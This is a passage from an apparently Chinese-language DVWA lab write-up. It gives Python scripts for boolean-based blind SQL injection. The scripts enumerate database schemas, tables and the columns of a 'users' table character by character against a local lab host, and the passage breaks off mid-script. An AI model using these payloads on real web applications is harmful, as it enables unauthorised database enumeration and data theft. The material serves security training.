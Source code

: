 ``````
                #url="%27+and+mid%28%28select+schema_name+from+information_schema.schemata+limit+"+str(k)+"%2C1%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                url="%27+and+mid%28%28select+table_name+from+information_schema.tables+where+table_schema%3Ddatabase%28%29+limit+"+str(k)+"%2C1%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                #' and mid((select schema_name from information_schema.schemata limit 0,1),1,1)='i'#
                try:
                    rp = urllib.request.Request(urlhead + url + end, headers=header)
                    respon = urllib.request.urlopen(rp)
                    html = respon.read().decode('utf-8')
                    if "User ID exists in the database." in html:
                        a+=j
                        print(a)
                        c = 0
                        break
                except:
                    continue
        c += 1
```

![1559652578654](assets/1559652578654.png)

#### 查询数据库的表的全部字段

```python
"""
@Product:DVWA 
@Author:Aixic
@create：2019-06-04-19:33
"""
import urllib.request

header={'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'
    ,'Cookie':'PHPSESSID=248dmjg65dksvfvf8kk0k7vqj0; security=low'}
payload="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_{}"
urlhead="http://192.168.123.20/vulnerabilities/sqli_blind/?id=1"
end="&Submit=Submit#"
#1%27+and+mid%28database%28%29%2C1%2C1%29%3D%27d%27%23
if __name__ == '__main__':
    a=""
    c = 0
    for k in range(0,20):
        a+="\r\n"+str(k)+":"
        if c==2:
            print("结束了")
            exit()
        for i in range(1,20):
            for j in payload:
                #url="%27+and+mid%28database%28%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                #url="%27+and+mid%28%28select+schema_name+from+information_schema.schemata+limit+"+str(k)+"%2C1%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                #url="%27+and+mid%28%28select+table_name+from+information_schema.tables+where+table_schema%3Ddatabase%28%29+limit+"+str(k)+"%2C1%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                url="%27+and+mid%28%28select+column_name+from+information_schema.columns+where+table_name%3D%27users%27+limit+"+str(k)+"%2C1%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                #' and mid((select schema_name from information_schema.schemata limit 0,1),1,1)='i'#
                try:
                    rp = urllib.request.Request(urlhead + url + end, headers=header)
                    respon = urllib.request.urlopen(rp)
                    html = respon.read().decode('utf-8')
                    if "User ID exists in the database." in html:
``````